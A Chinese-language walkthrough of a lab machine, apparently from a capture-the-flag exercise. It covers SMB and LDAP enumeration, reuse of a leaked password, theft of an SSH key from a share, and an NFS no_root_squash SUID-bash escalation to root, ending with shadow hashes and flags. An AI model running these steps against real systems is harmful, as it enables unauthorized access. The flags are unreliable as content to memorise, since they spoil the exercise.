

# recon
为模拟 ‘Assumed Breach’ 场景, 提供了以下凭据:
```
username: larryburns
password: IloveMontgommery!
Host: walnut.local
```
端口扫描:
```sh collapse={}
PORT     STATE SERVICE     REASON         VERSION
22/tcp   open  ssh         syn-ack ttl 62 OpenSSH 9.6p1 Ubuntu 3ubuntu13.18 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a1:50:1d:04:de:66:51:74:29:2d:8e:87:af:5d:7d:17 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDAe2OGwLE70VoJDOkmnOr88x5SbEbR7mN7xhBqklK0Eyhcd9Edl4BwWaZmZ04fp2XG5bcRYfVYvD6LCxNDXSQk=
|   256 4a:db:47:8c:fa:61:66:2e:22:e5:df:da:bb:b3:ce:c5 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIrrcUB1RZkqREz6oXnJ6JoTHvvkQfCehxAricf5Lelq
111/tcp  open  rpcbind     syn-ack ttl 62 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      41849/tcp   mountd
|   100005  1,2,3      42606/udp   mountd
|   100005  1,2,3      43796/udp6  mountd
|   100005  1,2,3      52439/tcp6  mountd
|   100021  1,3,4      37103/tcp   nlockmgr
|   100021  1,3,4      43857/tcp6  nlockmgr
|   100021  1,3,4      56933/udp   nlockmgr
|   100021  1,3,4      60116/udp6  nlockmgr
|   100024  1          35249/tcp6  status
|   100024  1          51634/udp6  status
|   100024  1          51996/udp   status
|   100024  1          60383/tcp   status
|   100227  3           2049/tcp   nfs_acl
|_  100227  3           2049/tcp6  nfs_acl
139/tcp  open  netbios-ssn syn-ack ttl 62 Samba smbd 4
389/tcp  open  ldap        syn-ack ttl 62 OpenLDAP 2.2.X - 2.3.X
445/tcp  open  netbios-ssn syn-ack ttl 62 Samba smbd 4
2049/tcp open  nfs_acl     syn-ack ttl 62 3 (RPC #100227)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: -1s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 63092/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 57550/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 45643/udp): CLEAN (Failed to receive data)
|   Check 4 (port 49235/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| nbstat: NetBIOS name: WALNUT, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   WALNUT<00>           Flags: <unique><active>
|   WALNUT<03>           Flags: <unique><active>
|   WALNUT<20>           Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| smb2-time: 
|   date: 2026-09-05T11:25:49
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Sep  5 07:26:08 2026 -- 1 IP address (1 host up) scanned in 33.17 seconds
```
一台无 web 的 Linux 机器, 一些分析:
1. 异常的全端口 ttl:62
2. `111,139,389,445`: Samba 以及 Openldap
3. `2049`: NFS
   
## NFS
首先从 NFS 入手:
```sh
┌──(stackcat㉿r1ngz0ps)-[~/Documents/hs]
└─$ showmount -e 10.1.165.102
Export list for 10.1.165.102:
```
但默认情况下没有共享

## Samba
应用凭据:
```sh
nxc smb 10.1.165.102 -u 'larryburns' -p 'IloveMontgommery!' --shares
SMB         10.1.165.102    445    WALNUT           [*] Unix - Samba (name:WALNUT) (domain:local) (signing:False) (SMBv1:None) (Null Auth:True)
SMB         10.1.165.102    445    WALNUT           [+] local\larryburns:IloveMontgommery! (Guest)
SMB         10.1.165.102    445    WALNUT           [*] Enumerated shares
SMB         10.1.165.102    445    WALNUT           Share           Permissions     Remark
SMB         10.1.165.102    445    WALNUT           -----           -----------     ------
SMB         10.1.165.102    445    WALNUT           print$                          Printer Drivers
SMB         10.1.165.102    445    WALNUT           automation                      automation share
SMB         10.1.165.102    445    WALNUT           IPC$                            IPC Service (walnut server (Samba, Ubuntu))
```

访问被降级为 `Guest`, 有一个非默认共享: `automation`, 但当前尚无操作权限

enum4linux:
```sh
enum4linux-ng -A -u larryburns -p IloveMontgommery! walnut.local
ENUM4LINUX - next generation (v1.3.10)

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... walnut.local
[*] Username ......... 'larryburns'
[*] Random Username .. 'mkztwqrr'
[*] Password ......... 'IloveMontgommery!'
[*] Timeout .......... 10 second(s)

 =====================================
|    Listener Scan on walnut.local    |
 =====================================
[*] Checking LDAP
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[-] Could not connect to LDAPS on 636/tcp: connection refused
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 ====================================================
|    Domain Information via LDAP for walnut.local    |
 ====================================================
[*] Trying LDAP
[-] LDAP connect error: automatic bind not successful - inappropriateAuthentication

 ===========================================================
|    NetBIOS Names and Workgroup/Domain for walnut.local    |
 ===========================================================
[+] Got domain/workgroup name: WORKGROUP
[+] Full NetBIOS names information:
- WALNUT          <00> -         B <ACTIVE>  Workstation Service
- WALNUT          <03> -         B <ACTIVE>  Messenger Service
- WALNUT          <20> -         B <ACTIVE>  File Server Service
- ..__MSBROWSE__. <01> - <GROUP> B <ACTIVE>  Master Browser
- WORKGROUP       <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
- WORKGROUP       <1d> -         B <ACTIVE>  Master Browser
- WORKGROUP       <1e> - <GROUP> B <ACTIVE>  Browser Service Elections
- MAC Address = 00-00-00-00-00-00

 =========================================
|    SMB Dialect Check on walnut.local    |
 =========================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:
  SMB 1.0: false
  SMB 2.0.2: true
  SMB 2.1: true
  SMB 3.0: true
  SMB 3.1.1: true
Preferred dialect: SMB 3.0
SMB1 only: false
SMB signing required: false

 ===========================================================
|    Domain Information via SMB session for walnut.local    |
 ===========================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: WALNUT
NetBIOS domain name: ''
DNS domain: local
FQDN: walnut.local
Derived membership: workgroup member
Derived domain: unknown

 =========================================
|    RPC Session Check on walnut.local    |
 =========================================
[*] Check for anonymous access (null session)
[+] Server allows authentication via username '' and password ''
[*] Check for password authentication
[+] Server allows authentication via username 'larryburns' and password 'IloveMontgommery!'
[*] Check for guest access
[+] Server allows authentication via username 'mkztwqrr' and password 'IloveMontgommery!'
[H] Rerunning enumeration with user 'mkztwqrr' might give more results

 ===================================================
|    Domain Information via RPC for walnut.local    |
 ===================================================
[+] Domain: WORKGROUP
[+] Domain SID: NULL SID
[+] Membership: workgroup member

 ===============================================
|    OS Information via RPC for walnut.local    |
 ===============================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[+] Found OS information via 'srvinfo'
[+] After merging OS information we have the following result:
OS: Linux/Unix
OS version: '6.1'
OS release: ''
OS build: '0'
Native OS: not supported
Native LAN manager: not supported
Platform id: '500'
Server type: '0x809a03'
Server type string: Wk Sv PrQ Unx NT SNT walnut server (Samba, Ubuntu)

 =====================================
|    Users via RPC on walnut.local    |
 =====================================
[*] Enumerating users via 'querydispinfo'
[+] Found 1 user(s) via 'querydispinfo'
[*] Enumerating users via 'enumdomusers'
[+] Found 1 user(s) via 'enumdomusers'
[+] After merging user results we have 1 user(s) total:
'1000':
  username: automation
  name: ''
  acb: '0x00000010'
  description: ''

 ======================================
|    Groups via RPC on walnut.local    |
 ======================================
[*] Enumerating local groups
[+] Found 0 group(s) via 'enumalsgroups domain'
[*] Enumerating builtin groups
[+] Found 0 group(s) via 'enumalsgroups builtin'
[*] Enumerating domain groups
[+] Found 0 group(s) via 'enumdomgroups'

 ======================================
|    Shares via RPC on walnut.local    |
 ======================================
[*] Enumerating shares
[+] Found 3 share(s):
IPC$:
  comment: IPC Service (walnut server (Samba, Ubuntu))
  type: IPC
automation:
  comment: automation share
  type: Disk
print$:
  comment: Printer Drivers
  type: Disk
[*] Testing share IPC$
[+] Mapping: OK, Listing: N
```

噪音很多, 但给出了有效的用户信息: `automation`

## OpenLdap
openldap 的 [DCtree 结构](https://www.openldap.org/doc/admin26/intro.html)与微软的 ldap 有所不同:


```sh collapse
ldapsearch  -x -H ldap://10.1.165.102 -D 'uid=larryburns,ou=people,dc=walnut,dc=local' -w 'IloveMontgommery!' -b "DC=walnut,DC=local"
# extended LDIF
#
# LDAPv3
# base <DC=walnut,DC=local> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# walnut.local
dn: dc=walnut,dc=local
objectClass: top
objectClass: dcObject
objectClass: organization
o: Kurumi inc
dc: walnut

# Groups, walnut.local
dn: ou=Groups,dc=walnut,dc=local
objectClass: organizationalUnit
ou: Groups

# People, walnut.local
dn: ou=People,dc=walnut,dc=local
objectClass: organizationalUnit
ou: People

# automation, Groups, walnut.local
dn: cn=automation,ou=Groups,dc=walnut,dc=local
objectClass: posixGroup
cn: miners
cn: automation
gidNumber: 7789
memberUid: automation

# briangeoff, Groups, walnut.local
dn: cn=briangeoff,ou=Groups,dc=walnut,dc=local
objectClass: posixGroup
cn: miners
cn: briangeoff
gidNumber: 1000
memberUid: briangeoff

# larryburns, Groups, walnut.local
dn: cn=larryburns,ou=Groups,dc=walnut,dc=local
objectClass: posixGroup
cn: miners
cn: larryburns
gidNumber: 1001
memberUid: larryburns

# automation, People, walnut.local
dn: uid=automation,ou=People,dc=walnut,dc=local
objectClass: inetOrgPerson
objectClass: posixAccount
objectClass: shadowAccount
uid: automation
sn: automation
givenName: automation
cn: automation
displayName: automation
uidNumber: 7789
gidNumber: 7789
gecos: automation
loginShell: /bin/bash
homeDirectory: /home/automation
description: old pw asdh023incasdahff9 please change pw on all servers

# briangeoff, People, walnut.local
dn: uid=briangeoff,ou=People,dc=walnut,dc=local
objectClass: inetOrgPerson
objectClass: posixAccount
objectClass: shadowAccount
uid: briangeoff
sn: Geoff
givenName: Brian
cn: briangeoff
displayName: briangeoff
uidNumber: 1000
gidNumber: 1000
gecos: Brian Geoff
loginShell: /bin/bash
homeDirectory: /home/briangeoff

# larryburns, People, walnut.local
dn: uid=larryburns,ou=People,dc=walnut,dc=local
objectClass: inetOrgPerson
objectClass: posixAccount
objectClass: shadowAccount
uid: larryburns
sn: Burns
givenName: Larry
cn: larryburns
displayName: larryburns
uidNumber: 1001
gidNumber: 1001
gecos: Larry Burns
loginShell: /bin/bash
homeDirectory: /home/larryburns
userPassword:: e1NTSEF9amdUN0V4SEtocDVDQm92clBaYzhMYkJiNXVwK1JNcUI=

# search result
search: 2
result: 0 Success

# numResponses: 10
# numEntries: 9
```

两条信息:
1. `larryburns` 的 base64 后的 [SSHA](https://www.openldap.org/faq/data/cache/347.html) hash: `e1NTSEF9amdUN0V4SEtocDVDQm92clBaYzhMYkJiNXVwK1JNcUI=`
2. `automation` 以及其密码: `asdh023incasdahff9`

# auth as automation
考虑重新枚举 smb:
```sh
nxc smb 10.1.165.102 -u 'automation' -p 'asdh023incasdahff9' --shares
SMB         10.1.165.102    445    WALNUT           [*] Unix - Samba (name:WALNUT) (domain:local) (signing:False) (SMBv1:None) (Null Auth:True)
SMB         10.1.165.102    445    WALNUT           [+] local\automation:asdh023incasdahff9
SMB         10.1.165.102    445    WALNUT           [*] Enumerated shares
SMB         10.1.165.102    445    WALNUT           Share           Permissions     Remark
SMB         10.1.165.102    445    WALNUT           -----           -----------     ------
SMB         10.1.165.102    445    WALNUT           print$          READ            Printer Drivers
SMB         10.1.165.102    445    WALNUT           automation      READ,WRITE      automation share
SMB         10.1.165.102    445    WALNUT           IPC$                            IPC Service (walnut server (Samba, Ubuntu))
```

可以读写 `automation` 共享

## share:automation
实话实说, 我脑子抽了, 第一时间居然没有直接尝试密码登陆 ssh, 先读取共享:
```sh
smbclient -U walnut.local/automation%asdh023incasdahff9 \\\\walnut.local\\automation
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Sep  5 07:49:24 2026
  ..                                  D        0  Sat Sep  5 07:49:24 2026
  .bash_history                       H       10  Sun Aug 30 09:04:58 2026
  scripts                             D        0  Thu Sep 18 16:28:59 2025
  .ssh                               DH        0  Fri Sep 19 09:39:26 2025
  .hidden                            DH        0  Thu Sep 18 15:22:44 2025
  .cache                             DH        0  Thu Sep 18 09:38:52 2025
  .lesshst                            H       20  Thu Sep 18 15:24:25 2025
  user.txt                            N       33  Sun Aug 30 08:53:47 2026
  .viminfo                            H    11817  Thu Sep 18 16:28:59 2025

		8408452 blocks of size 1024. 2714392 blocks available
smb: \> cd .ssh
smb: \.ssh\> ls
  .                                   D        0  Fri Sep 19 09:39:26 2025
  ..                                  D        0  Sat Sep  5 07:49:24 2026
  id_rsa.pub                          N      576  Thu Sep 18 09:12:15 2025
  id_rsa                              N     2610  Thu Sep 18 09:12:15 2025
  authorized_keys                     N      576  Fri Sep 19 09:39:26 2025

		8408452 blocks of size 1024. 2714392 blocks available
smb: \.ssh\> get id_rsa
getting file \.ssh\id_rsa of size 2610 as id_rsa (1.5 KiloBytes/sec) (average 1.5 KiloBytes/sec)
```

进入是 automation 的家目录, 有 ssh 私钥, 下载并登陆, 不需要 prase

# shell as automation
一些身份枚举以及系统枚举, 一些原始枚举的输出找不到了, 但 `sudo -l` 和 `suid` 都没什么有用的.
```sh
automation@walnut:~$ whoami
automation
automation@walnut:~$ id
uid=7789(automation) gid=7789(automation) groups=7789(automation)

automation@walnut:~$ cat /etc/passwd|grep 'sh$'
root:x:0:0:root:/root:/bin/bash
automation:x:7789:7789::/home/automation:/bin/bash
localjob1:x:5000:5000:,,,:/home/localjob1:/bin/bash
localjob2:x:5001:5001:,,,:/home/localjob2:/bin/bash
localjob3:x:5002:5002:,,,:/home/localjob3:/bin/bash
localjob4:x:5003:5003:,,,:/home/localjob4:/bin/bash

automation@walnut:~$ ls /etc/cron*
/etc/crontab
/etc/cron.d:
e2scrub_all  sysstat
/etc/cron.daily:
apport	apt-compat  dpkg  logrotate  man-db  sysstat
/etc/cron.hourly:
/etc/cron.monthly:
/etc/cron.weekly:
man-db
/etc/cron.yearly:

automation@walnut:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
# You can also override PATH, but by default, newer versions inherit it from the environment
#PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root	cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.daily; }
47 6	* * 7	root	test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.weekly; }
52 6	1 * *	root	test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.monthly; }
```

网络情况:
```sh
automation@walnut:~$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc mq state UP group default qlen 1000
    link/ether 12:42:25:31:9a:f7 brd ff:ff:ff:ff:ff:ff
    altname enp0s5
    altname ens5
    inet 10.1.165.102/18 metric 100 brd 10.1.191.255 scope global dynamic eth0
       valid_lft 3273sec preferred_lft 3273sec
    inet6 fe80::1042:25ff:fe31:9af7/64 scope link
       valid_lft forever preferred_lft forever
automation@walnut:~$ ss -lntp
State      Recv-Q     Send-Q          Local Address:Port            Peer Address:Port     Process
LISTEN     0          64                    0.0.0.0:43905                0.0.0.0:*
LISTEN     0          4096                  0.0.0.0:60383                0.0.0.0:*
LISTEN     0          4096            127.0.0.53%lo:53                   0.0.0.0:*
LISTEN     0          4096                  0.0.0.0:42371                0.0.0.0:*
LISTEN     0          2048                  0.0.0.0:389                  0.0.0.0:*
LISTEN     0          50                    0.0.0.0:445                  0.0.0.0:*
LISTEN     0          4096               127.0.0.54:53                   0.0.0.0:*
LISTEN     0          50                    0.0.0.0:139                  0.0.0.0:*
LISTEN     0          64                    0.0.0.0:2049                 0.0.0.0:*
LISTEN     0          4096                  0.0.0.0:45069                0.0.0.0:*
LISTEN     0          4096                  0.0.0.0:22                   0.0.0.0:*
LISTEN     0          4096                  0.0.0.0:60497                0.0.0.0:*
LISTEN     0          4096                  0.0.0.0:111                  0.0.0.0:*
LISTEN     0          4096                     [::]:54925                   [::]:*
LISTEN     0          2048                     [::]:389                     [::]:*
LISTEN     0          4096                     [::]:35249                   [::]:*
LISTEN     0          4096                     [::]:43451                   [::]:*
LISTEN     0          50                       [::]:445                     [::]:*
LISTEN     0          64                       [::]:40445                   [::]:*
LISTEN     0          50                       [::]:139                     [::]:*
LISTEN     0          64                       [::]:2049                    [::]:*
LISTEN     0          4096                     [::]:58373                   [::]:*
LISTEN     0          4096                     [::]:22                      [::]:*
LISTEN     0          4096                     [::]:111                     [::]:*
```
没什么仅限本地的有趣端口

对于 NFS 配置, 解释了为什么枚举中没有发现 NFS 共享
```sh
automation@walnut:~/scripts$ cat /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
```

整体下来提权路径很明朗: 先找到一个有特殊 sudo 权限的用户, 然后顺水推舟.

## script
对 `script` 文件夹以及其中文件做分析:
```sh
automation@walnut:~/scripts$ ls
logs  runScript.sh
automation@walnut:~/scripts$ cat runScript.sh
#!/bin/bash

PARM1="$1"
PARM2=`echo -n "$1" | md5sum | cut -d' ' -f 1`
PARM3="$2"
DATE=`date +%d.%m.%Y-%Hh%m.%S`

su - "$PARM1" -c "$PARM3" < /home/automation/.hidden/"$PARM2" > /home/automation/scripts/logs/"$1"-"$DATE".log
```

其将 `~/.hidden` 文件夹中与用户名的 md5 匹配的文件中的内容作为密码, 使用 sudo 以该用户身份之情命令并写入 log.

密码:
```sh
automation@walnut:~/scripts$ ls -licah ~/.hidden
total 24K
393416 drwx------ 2 automation automation 4.0K Sep 18  2025 .
394053 drwxr-x--- 6 automation automation 4.0K Sep  5 11:49 ..
393419 -rw------- 1 automation automation   21 Sep 19  2025 4f378611beed879f4f62a43ac18452a9
393418 -rw------- 1 automation automation   21 Sep 19  2025 af5f60ab1fe78c4a34e37c9cb4cc58b8
393440 -rw------- 1 automation automation   21 Sep 19  2025 b410af005ed0c033fd5e89720fdf2d57
393438 -rw------- 1 automation automation    0 Sep 19  2025 b4d2ab0ea77f3306355ac7b2bcfcd614
393439 -rw------- 1 automation automation   21 Sep 19  2025 b4d2ab0ea77f3306355ac7b2bcfcd614.bak
automation@walnut:~/scripts$ cat ~/.hidden/*
brYfZknjTirtrPgM8V65
cKvFZVPbrxEqCkCLPM70
Q8NPUgCvuBQ636tzFBh3
vyZzRcreRGDjbq9t19Tb
```

系统中一共还有 4 个用户:
```
localjob1:x:5000:5000:,,,:/home/localjob1:/bin/bash
localjob2:x:5001:5001:,,,:/home/localjob2:/bin/bash
localjob3:x:5002:5002:,,,:/home/localjob3:/bin/bash
localjob4:x:5003:5003:,,,:/home/localjob4:/bin/bash
```

# shell as localjob3
起对应密码为: `vyZzRcreRGDjbq9t19Tb`
只有该用户的 sudo 权限有有价值信息:
```sh
localjob3@walnut:/home/localjob1$ sudo -l
Matching Defaults entries for localjob3 on walnut:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User localjob3 may run the following commands on walnut:
    (ALL) NOPASSWD: /usr/bin/systemctl restart nfs-kernel-server.service

```

## NFS no_root_squash
可以重启 NFS 服务, 查看 `/etc/expots` 权限, 其应用了 [facl](https://www.redhat.com/en/blog/linux-access-control-lists), 是一套独立于 RWX 权限的权限系统, 设置了 facl 的文件会在 RWX 条后有一个 `+`
```sh
localjob3@walnut:/home/localjob1$ ls -liah /etc/exports
131666 -rw-rw-r--+ 1 root root 390 Sep 19  2025 /etc/exports
localjob3@walnut:/home/localjob1$ getfacl /etc/exports
getfacl: Removing leading '/' from absolute path names
# file: etc/exports
# owner: root
# group: root
user::rw-
user:localjob3:rw-
group::r--
mask::rw-
other::r--
```

也就是说, `localjob3` 可以修改配置文件, 即可以应用 `no_root_squash` 攻击:
```sh
localjob3@walnut:~$ mkdir share && cp /bin/bash ./share/bash
localjob3@walnut:~$ echo  "/home/localjob3/share *(rw,sync,no_root_squash)" |tee -a /etc/exports
localjob3@walnut:~$ sudo /usr/bin/systemctl restart nfs-kernel-server.service
```

在 kali 上:
```sh
┌──(stackcat㉿r1ngz0ps)-[~/Documents/hs]
└─$ showmount -e 10.1.165.102
Export list for 10.1.165.102:
/home/localjob3/share *
┌──(stackcat㉿r1ngz0ps)-[~/Documents/hs]
└─$ sudo mount -t nfs 10.1.165.102:/home/localjob3/share ./mntf
┌──(root㉿r1ngz0ps)-[/home/stackcat/Documents/hs/mntf]
└─# chown root:root ./bash
┌──(root㉿r1ngz0ps)-[~stackcat/Documents/hs/mntf]
└─# chmod +s ./bash
```

最终:
```sh
localjob3@walnut:~/share$ ./bash -p
bash-5.2#
```
# shell as root
战利品:
```sh
# shadow
root:$y$j9T$UmHpSRJ1qYhfOG.6OldZb0$38vr3gUa/TG0MNy2wP2uaV6.8fabfuke8zNISI6OTz8:20349:0:99999:7:::
automation:$y$j9T$yqyYXRhOd4JXhInaH1jld.$htBpZ7ZX7F3i2IKk6gepQYtycBmmMVZCMTF1mJtsvJ6:20349:0:99999:7:::
localjob1:$y$j9T$EXOQyoid/RmZ4/TUFCeYO.$Gbjs4bdHF7qhnu.MHUlxkeajzpusoxJy9CDvtLCXsy7:20349:0:99999:7:::
localjob2:$y$j9T$Nw35eg19DdYPlFCdHI3Je0$YQTZzYi7SQhfe8QljhLQIuVm6qTpbgNbHviA..AGr4C:20349:0:99999:7:::
localjob3:$y$j9T$Q6.FspfyxeK/ywvwCI3sO/$bROALBbdSEicj2I4SsuVBDvJOOkT8l51OFzyksxlWB0:20349:0:99999:7:::
localjob4:$y$j9T$50HSZtw65e0OKhxplqTDW/$3GAD.jOpjVoYs9fYL7xwX7n/S.SeW/g3HzVR.ZQLq72:20349:0:99999:7:::

# flags
c3dcdda3950b1eca68477ce65da82392
f42a447b64f431b99d7fe59f65f71bc7
```

